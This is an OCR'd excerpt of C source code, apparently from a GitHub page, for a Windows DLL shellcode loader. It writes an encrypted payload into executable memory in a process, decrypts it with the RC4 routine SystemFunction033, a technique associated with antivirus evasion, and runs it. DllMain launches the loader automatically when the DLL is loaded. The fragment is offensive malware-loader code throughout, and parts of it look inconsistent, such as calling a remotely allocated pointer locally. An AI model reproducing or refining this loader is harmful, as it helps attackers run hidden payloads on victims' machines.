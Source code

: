 ```c
    }

    // Allocate memory in the process
    LPVOID rPtr = VirtualAllocEx(pHandle, NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (rPtr == NULL) {
        // Handle error allocating memory
        CloseHandle(pHandle);
        return 1;
    }

    // Copy shellcode to the allocated memory
    if (!WriteProcessMemory(pHandle, rPtr, encrypted_bin, size, NULL)) {
        // Handle error writing to process memory
        VirtualFreeEx(pHandle, rPtr, 0, MEM_RELEASE); 
        CloseHandle(pHandle);
        return 1;
    }

    // Memory region
    USTRING shellcodeRegion;
    shellcodeRegion.Buffer = rPtr;
    shellcodeRegion.Length = size;
    shellcodeRegion.MaximumLength = size;

    // Decrypt memory region with SystemFunction033
    NTSTATUS status = SystemFunction033(&shellcodeRegion, &keyString);
    if (status != 0) {
        // Handle error in SystemFunction033
        VirtualFreeEx(pHandle, rPtr, 0, MEM_RELEASE); 
        CloseHandle(pHandle);
        return 1;
    }

    // Change memory protections of the allocated region to allow execution
    DWORD oldProtect;
    if (!VirtualProtectEx(pHandle, rPtr, size, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        // Handle error changing memory protection
        VirtualFreeEx(pHandle, rPtr, 0, MEM_RELEASE); 
        CloseHandle(pHandle);
        return 1;
    }

    // Execute the decrypted shellcode pointed to by rPtr as a function.
    ((void(*)())rPtr)();

    // Close process handle
    CloseHandle(pHandle);
    return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
    switch (fdwReason) {
    case DLL_PROCESS_ATTACH:
        // Create a new thread for Run_Code
        CreateThread(NULL, 0, RunCodeThread, NULL, 0, NULL);
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
```